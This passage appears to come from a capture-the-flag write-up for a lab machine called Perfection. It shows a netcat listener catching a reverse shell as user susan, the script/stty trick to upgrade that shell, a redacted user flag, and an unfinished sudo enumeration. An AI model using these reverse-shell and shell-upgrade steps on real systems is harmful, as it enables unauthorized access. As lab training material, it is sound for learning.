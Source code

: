 

    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.253 57674
    bash: cannot set terminal process group (1000): Inappropriate ioctl for device
    bash: no job control in this shell
    susan@perfection:~/ruby_app$



I'll upgrade my shell using the [script / stty
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    susan@perfection:~/ruby_app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    susan@perfection:~/ruby_app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    susan@perfection:~/ruby_app$ 



And fetch `user.txt`:



    susan@perfection:~$ cat user.txt
    25d1353e************************



## Shell as root

### Enumeration

#### sudo

I already noted that susan is in the sudo group. Typically that means
they can run any command as any user. I'll try `sudo -l` to list the
configuration:



    susan@perfection:~$ sudo -l
    [sudo] password for susan: 



It's prompting for a password, which I don't have. I'll have to come
back when I do.

#### Users
